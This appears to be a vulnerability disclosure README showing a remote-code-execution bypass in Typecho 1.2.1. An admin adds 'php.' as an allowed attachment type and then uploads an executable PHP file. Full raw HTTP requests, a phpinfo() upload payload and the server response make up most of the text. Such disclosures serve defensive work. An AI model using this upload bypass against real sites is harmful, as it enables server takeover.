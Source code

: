 # typecho-v1.2.1-RCE
typecho-v1.2.1-RCE

##Vulnerability to reproduce
Log in to the backend of the website. Locate the /admin/options-general.php file and add 'php.' to the '其他格式' section at the bottom. Then click on '保存设置'.

```php
POST /typecho/index.php/action/options-general?_=7f7f3849a454840627316bb52364d2fc HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 262
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/typecho/admin/options-general.php
Cookie: 49687d6f50b4bcdd180e408f21e5efa5__typecho_uid=1; 49687d6f50b4bcdd180e408f21e5efa5__typecho_authCode=%24T%24uKyiUEUfT3f8a523484b8bf9731cc8c1d2a8b6aa7; PHPSESSID=s25t07f2di5m8kfc5vuqf5bg7l; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1910606b29d5c2ce; DedeLoginTime=1686923767; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=64371f6768b13b59; _csrf_name_6f6a18a7=ca33b084396b5d22e954fe124954e4dc; _csrf_name_6f6a18a71BH21ANI1AGD297L1FF21LN02BGE1DNG=c51a2607b5a3e048
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

title=Hello+World&siteUrl=http%3A%2F%2F127.0.0.1%2Ftypecho&description=Your+description+here.&keywords=typecho%2Cphp%2Cblog&allowRegister=0&allowXmlRpc=2&timezone=28800&attachmentTypes%5B%5D=%40image%40&attachmentTypes%5B%5D=%40other%40&attachmentTypesOther=php.
```

![web](./typecho-V1.2.1_rce_01.png)

Visit the URL 'http://127.0.0.1/typecho/admin/write-post.php'. This is based on the current directory where I have set up. The actual directory is 'admin/write-post.php'. After entering, click on the '附件' button on the right side, and then click the highlighted button '选择文件上传'. Upload a random PHP file here and the system will not block it. After successful upload, the file can still be executed and the PHP address will be returned.

![web](./typecho-V1.2.1_rce_02.png)

The following is the request packet.

```php
POST /typecho/index.php/action/upload?_=d84b30765596739f0c2d3724d7971184 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------163606809438821006984144374022
Content-Length: 519
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/typecho/admin/write-post.php
Cookie: 49687d6f50b4bcdd180e408f21e5efa5__typecho_uid=1; 49687d6f50b4bcdd180e408f21e5efa5__typecho_authCode=%24T%24uKyiUEUfT3f8a523484b8bf9731cc8c1d2a8b6aa7; PHPSESSID=s25t07f2di5m8kfc5vuqf5bg7l; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1910606b29d5c2ce; DedeLoginTime=1686923767; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=64371f6768b13b59; _csrf_name_6f6a18a7=ca33b084396b5d22e954fe124954e4dc; _csrf_name_6f6a18a71BH21ANI1AGD297L1FF21LN02BGE1DNG=c51a2607b5a3e048
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------163606809438821006984144374022
Content-Disposition: form-data; name="name"

20230616121905.php
-----------------------------163606809438821006984144374022
Content-Disposition: form-data; name="file"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php
phpinfo();
?>
-----------------------------163606809438821006984144374022--
```

The following is the response packet.

```php
HTTP/1.1 200 OK
Date: Fri, 16 Jun 2023 14:51:24 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/7.3.4
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Connection: close
Content-Type: application/json; charset=UTF-8
Content-Length: 303

["http:\/\/127.0.0.1\/typecho\/usr\/uploads\/2023\/06\/3042336957.php",{"cid":8,"title":"phpinfo.php","type":"php","size":21,"bytes":"1 Kb","isImage":false,"url":"http:\/\/127.0.0.1\/typecho\/usr\/uploads\/2023\/06\/3042336957.php","permalink":"http:\/\/127.0.0.1\/typecho\/index.php\/attachment\/8\/"}]
```

The requested URL is 'http://127.0.0.1/typecho/usr/uploads/2023/06/3042336957.php'.

![web](./typecho-V1.2.1_rce_03.png)

##Vulnerability Analysis
The website filtered extensions such as php, php5, php3, etc., but forgot about php. It can still be parsed successfully on Windows.
